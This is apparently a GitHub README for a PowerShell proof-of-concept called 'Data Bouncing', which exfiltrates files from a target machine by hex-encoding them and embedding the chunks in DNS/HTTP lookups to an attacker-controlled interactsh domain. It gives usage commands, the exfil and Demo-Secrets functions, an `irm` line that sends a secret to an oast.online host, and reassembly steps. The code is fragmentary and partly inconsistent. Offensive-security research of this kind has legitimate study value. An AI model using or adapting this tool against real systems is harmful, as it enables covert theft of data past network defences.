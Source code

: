 # Data Bouncing - PowerShell Version

## Overview
Data Bouncing is a technique used to transmit data between two endpoints using DNS lookups and HTTP header manipulation. This PowerShell version of the project encapsulates the core functionalities of data bouncing, including reconnaissance, data exfiltration, and file reassembly.

### Background
This project is a proof of concept (PoC) based on ideas by John and Dave, detailed at [The Contractor](https://thecontractor.io/DataBouncing). It demonstrates how to use DNS queries and HTTP headers for discreet data transfer.

## Components
The PowerShell project consists of two main scripts:

- `exfil.ps1`: Handles the exfiltration of data.
- `recreate.ps1`: Manages the reassembly of the exfiltrated data.

### `exfil.ps1`
This script encodes a file into hexadecimal format, splits it into chunks, and then sends each chunk as part of a domain name in an HTTP request header. This process helps in exfiltrating data from networks where direct transfer methods are restricted.

### `recreate.ps1`
It processes the data received from the `exfil.ps1` script. This includes finding specific patterns in logs, assembling data chunks, and converting hexadecimal data back to its original form.

## Usage
### Prerequisites
- A controlled DNS server is required.
- For hobbyist or learning purposes, [InteractSh](https://github.com/projectdiscovery/interactsh) is recommended.

### Running the Scripts
1. **Data Exfiltration**:
   ```powershell
   exfil -regex 'your-regex' -domain 'your-domain.oast.online' -url 'target-url.com' -filepath '.\path\to\file.txt'


You have two options. 
Use the [InteractSh Web Client](https://app.interactsh.com/#/) or 
use this [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with an Ubuntu 22.04 image.

Run this command on your listener machine to start the InteractSh Client and define your log file

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```

Next on the target machine you are going to want to convert a file to Hex and prepare it for transfer with this script:
[chunks](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1)



```powershell

function exfil {
    param (
        [string]regex,
        [string]$domain,
        [string]$url,
        [string]$filepath
    )
    $segments = Convert-FileToHexChunks -FilePath $filepath
    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value;
        send-customRequest -Url "$regex.$url" -Domain "$domain"    
    }
}
```





```
function Demo-Secrets {
    param (
        [string]$xregex,
        [string]$urlSuffix
    )

    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value
        $url = "$xregex.$secret.$urlSuffix"
        Send-CustomRequest $url
    }
}
```

```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```



```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
